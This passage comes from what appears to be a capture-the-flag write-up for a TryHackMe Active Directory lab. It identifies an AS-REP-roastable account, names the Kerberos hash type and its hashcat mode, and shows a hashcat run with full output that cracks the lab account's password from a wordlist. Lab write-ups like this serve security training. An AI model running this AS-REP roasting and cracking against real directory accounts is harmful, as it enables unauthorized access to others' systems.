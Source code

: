 `svc-admin`

2. Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

[https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

![](./2020-10-17_11-17.png)

`Kerberos 5 AS-REP etype 23`

3. What mode is the hash?

`18200`

4. Now crack the hash with the modified password list provided, what is the user accounts password?

```
bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd02b080a5370b1114e15d26$9dbfc5b2a618fab698eedcb5022d7cf1a86735364938defc0f06aa73cc608748b84aa5e3735f3f8942ff12d54da014ddc485155c919c30fbc671b91b7c27a07c2c5ba6f9c4ef637812035f73642fb38d3509d61a244b16376adcb42a31feb91b24dc816b90cca74497e7fe4c8f8883ad3124005c197cccc68dcc4cc499eb462aba71b22892c6b9e9dd53339087f61ac74a20752aecbe82df48d22bd373bfda0254084c47e7046a1d26f02c062a1599f4133b93a55de6d8bcd83dfc87166ef8c53b229934249c88785628fb4012480f20556d35dace5bf67b05470f0215298d4c6d1fa2e218e8930e1f29437d390b230ef396:management2005

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd0...0ef396
Time.Started.....: Sat Oct 17 11:20:29 2020 (14 secs)
Time.Estimated...: Sat Oct 17 11:20:43 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   423.7 kH/s (7.51ms) @ Accel:48 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
```
